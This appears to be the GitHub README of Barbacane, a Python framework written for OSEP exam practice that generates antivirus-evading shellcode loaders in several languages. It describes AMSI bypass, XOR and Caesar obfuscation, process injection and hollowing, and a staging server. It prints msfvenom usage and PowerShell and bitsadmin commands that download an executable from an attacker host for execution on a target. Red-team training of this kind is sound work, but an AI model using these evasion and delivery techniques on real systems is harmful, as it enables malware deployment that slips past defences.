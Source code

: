 
```
   ___            _                                
  / __\ __ _ _ __| |__   __ _  ___ __ _ _ __   ___ 
 /__\/// _` | '__| '_ \ / _` |/ __/ _` | '_ \ / _ \
/ \/  \ (_| | |  | |_) | (_| | (_| (_| | | | |  __/
\_____/\__,_|_|  |_.__/ \__,_|\___\__,_|_| |_|\___|
VBA/Powershell/C/++/# Shellcode loader framework +
```

A barbican (barbacane [old french], bashoura [arabic]) is a fortified gateway situated over a gate or bridge, which was used for defensive purposes. An ominous doorway to a world of dreams and occult myths.

## [+] Overview

#Barbacane is a **framework in Python3** designed to create as you go different types of **shellcode loaders in Powershell, C++, C#, C and VBA from a command-line interface (CLI)**. Most of the generated shellcode loaders are Windows-oriented, but one of them is dedicated to Linux machine.

In addition, Barbacane can run on demand a web server to act as a staging server. Every loaders comes with **basic anti-virus bypasses** designed to reliably defeat low-grade anti-virus (AV).

### Philosophy

When starting my OSEP journey, I realized that automating the shellcode loader generation process was mandatory to succeed during the exam. In my mind, the process of manually creating a new code from a second-hand template was far too random and caused unwanted mistakes that I didn't want to track during the exam. Barbacane came from this intuition. 

Knowing this background, keep in mind the **following key-facts** before using this framework:
- Barbacane has been organically designed following my research and OSEP lessons. Consequently, the **code suffers from a lack of design, flow control, error mangament and optimization** as well as it could be more Python-ish. Eventually, you will find **some missing features**. Nonetheless, as far as I'm concerned, it works and provide some valued reliabilty during my journey through the OSEP labs. 
- Every template **contains basic AV bypasses effective against low to intermediate-level anti-virus**. Every template succeeded to bypass a mid-2023 Microsoft Defender. If you want to be stealthier, more research should be performed to improve the payloads. Have fun.
- Barbacane **doesn't compile payloads on demand**. When starting the project, I quickly realized that dealing with this issue would be to hard to overcome. Instead, I recommand to use Barbacane closely with a virtual machine (VM) on Windows and a shared folder. The setup of the VM is your responsability, but it should not take much effort to run properly a Windows with csc and cli installed.
### Features

As a framework, Barbacane offers the following generation capabilities:

- **Shellcode loader in C++** crafted as a PE (.exe) or as a shared library (.dll), both for x64 architecture, including:
	- static obfuscation based on XOR encryption
	- behavior analysis bypass, including IAT obfuscation, and prime-number calculation
	- strings from the Edge binary are added to reduce the level of entropy
	
- **Shellcode runner in c crafted as an ELF file for x64 linux system**  including:
	- static obfuscation based on a XOR encryption
	
- **Shellcode loader in C#** crafted in PE (.exe) or shared library (.dll), both for x64 architecture, including:
	- static obfuscation based on Caesar cypher encryption
	- behavior analysis bypass including sleep timers and non-emulated API detection
	- **on-demand process injection and hollowing capabilities**
	
- **Shellcode loader in Powershell** for x64 architecture which includes two options of AMSI bypasses:
	- corruption of the context structure that is created by calling _AmsiInitialize_
	- manipulation of a result variable set by _AmsiInitialize_ (coming soon)

- **Shellcode loader in VBA based on two different scenario:
	- a classic shellcode loader fully made in VBA that includes two AV bypass techniques:
		- static obfuscation based on Caesar cypher encryption
		- behavior analysis bypass based on a sleep timer
	- a VBA runner based on WMI that executes a command on the targeted system, such as a powershell payload (why not the runner in Powershell we displayed earlier?) it includes a static obfuscation based on masquerading the variables and Caesar cypher encrypting some key-word often flagged as malicious.

- On demand, a **Python3 web server may be initialized to be used as a staging server**. it includes preformatted living-off-the-land commands to download the craddle

----
## [+] Installation

### Setup:

From your client machine with Python3 up and running:

```bash
# after downloading the project and paste it in /opt (for instance)
cd /opt/barbacane
# Setting a virtualenv
sudo virtualenv barbacane-venv 
source barbacane-venv/bin/activate
# Installing required package
pip3 install colorama
```

---
## [+] Usage

>[!WARNING]
>If you want to generate a functional loader from Barbacane, **you must use a raw binary shellcode as payload**. No other format is recognized by the framework. You are warned.

First time you run Barbacane ? Fair enough. From the downloaded project, type the following command to learn how to use Barbacane:

`$ python3 barbacane.py --help`

Alternatively, you can follow this short tutorial demonstrating the generation of a simple C++ shellcode loader for Windows:

- **Step1:** generate a payload in raw binary:

`$ msfvenom --platform windows --arch x64  -p windows/x64/messagebox -f raw > /tmp/pld.bin`

- **Step2:** use Barbacane to create a shellcode loader source code

```bash
$ python3 barbacane.py -format C++ -host 192.168.56.1 -port 8080 -pld payload/pld.bin -key pass -name output --stagging
   ___            _                                
  / __\ __ _ _ __| |__   __ _  ___ __ _ _ __   ___ 
 /__\/// _` | '__| '_ \ / _` |/ __/ _` | '_ \ / _ \ 
/ \/  \ (_| | |  | |_) | (_| | (_| (_| | | | |  __/
\_____/\__,_|_|  |_.__/ \__,_|\___\__,_|_| |_|\___|
+ VBA/Powershell/C/++/# Shellcode loader framework +

+ -- [ Every grave robber gains +30 dodge ] -- +
[*] WARNING: you are using a test payload used for debugging purpose
[*] Creating a c++ Windows shellcode runner (IAT obfuscation, prime-number bypass, adding strings to reduce level of entropy)
[+] Custom c++ template for PE generated
[+] Payload found at payload/pld.bin
[+] Payload XOR encrypted with the following key: pass
[+] Payload nested
[+] The template is available at output/output.cpp
[+] >>> Compile on Windows VM using x64VS cli: cl.exe /nologo /Ox /MT /W0 /GS- /DNDEBUG /Tcoutput/output.cpp /link /OUT:output/output.exe /SUBSYSTEM:CONSOLE /MACHINE:x64
[+] Exec on target:
 >>> powershell -ep bypass -nop -c (New-Object System.Net.WebClient).DownloadFile('http://192.168.56.1:8080/output.exe', 'output.exe')
 >>> powershell -ep bypass -nop -c Invoke-WebRequest -Uri http://192.168.56.1:8080/output.exe -OutFile output.exe
 >>> bitsadmin /transfer pwn /download http://192.168.56.1:8080/output.exe output.exe
[*] HTTP server serving at: http:// 192.168.56.1 8080
```

- **Step3:** compile on a dedicated VM using the command submitted by Barbacane and a shared folder where the root folder is ``barbacane/``:

![Pasted image 20240329221651](https://github.com/hex-a-dec/barbacane/assets/152536937/b839e8ff-c753-447d-bd4d-2a1f209feca1)

- **Step4:** download the payload the way you like, execute it and enjoy the view of profit:

![Pasted image 20240330090300](https://github.com/hex-a-dec/barbacane/assets/152536937/d4a3558b-9bc3-49a3-a884-012c45a265da)


Other examples you might want to know:

- generate a shellcode loader as a DLL for a Windows x64:
`$ python3 barbacane.py -format C++ -name mypayload --dll

- generate a shellcode injector in c# for Windows x64 and specify the process to tamper:
`$ python3 barbacane.py -format C# -name payload --inject -pid explorer -mode inject`

- generate a shellcode loader in Powershell for Windows x64 and run a staging server on port 8080
`$ python3 barbacane.py -format Powershell -name payload --staging -host 192.168.56.1 -port 8080`

All templates used by the framework are available in the ``/templates`` folder. The generated payloads are availlable in ``/output`` folder

---
## [+] Credits

A special thanks goes to:
- [vanmieghem.io - A blueprint for evading industry leading endpoint protection in 2022](https://vanmieghem.io/blueprint-for-evading-edr-in-2022/), still a masterclass in 2023. i learnt so much reading this blog article
- [Sektor7 - RED TEAM Operator: Malware Development Essentials Course](https://institute.sektor7.net/red-team-operator-malware-development-essentials) A great but not-free resource to jump into the development of shellcode.
- [Offsec - OSEP course](https://www.offsec.com/courses/pen-300/), well Barbacane is all about this course, right ?
- I must admit ChatGPT3.5 extensively helped me to write some cryptographic functions in Python. When it comes to code software, being backed by an AI increases my efficiency. I mean AI are not enough mature to code things by themselves without human supervision and ex-post control , but AI are definitely useful to help dealing with a particular point of a greater issue. Having said that, thank you CG ;)
